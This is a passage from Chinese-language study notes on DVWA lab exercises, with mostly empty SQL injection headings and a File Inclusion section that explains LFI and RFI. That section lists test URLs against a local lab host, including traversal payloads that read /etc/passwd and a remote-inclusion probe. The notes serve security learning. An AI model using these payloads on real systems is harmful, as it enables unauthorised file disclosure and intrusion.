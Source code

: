 ```
        echo '<pre>ERROR: You have entered an invalid IP.</pre>'; 
    } 
} 

// Generate Anti-CSRF token 
generateSessionToken(); 

?> 
```

# SQL Injection（SQL注入）

### Low


### Medium

### High

### Impossible

# SQL Injection（Blind）（SQL盲注）

### Low

### Medium
```
```

### High

### Impossible

# File Inclusion（文件包含）

>* File Inclusion[檔案包含]:當伺服器開啟allow_url_include選項時，就可通過php的某些特性函數[include()，require()和include_once()，require_once()]利用url去動態包含文件

[File inclusion vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)
>* 如果沒有對檔案來源進行嚴格審查，就會導致任意檔案讀取或者任意命令執行。
>* 分為本地檔包含漏洞(Local file Inclusion(LFI))與遠端檔包含漏洞(Remote file Inclusion(RFL))
>* 遠端檔包含漏洞是因為開啟了php配置中的allow_url_fopen選項（選項開啟之後，伺服器允許包含一個遠端的檔）。

### Low
***
步驟一:點選網站上的超連結==?仔細看瀏覽器的變化
```
http://192.168.1.250/DVWA/vulnerabilities/fi/?page=file1.php
http://192.168.1.250/DVWA/vulnerabilities/fi/?page=file2.php
http://192.168.1.250/DVWA/vulnerabilities/fi/?page=file3.php
```
步驟二:測試是否存在File inclusion vulnerability
```
LFI 攻擊測試==>
http://192.168.1.250/DVWA/vulnerabilities/fi/?page=/etc/passwd
http://192.168.1.250/DVWA/vulnerabilities/fi/?page=../../etc/passwd

RFI 攻擊測試==>
http://192.168.1.250/DVWA/vulnerabilities/fi/? page=http://www.google.com
```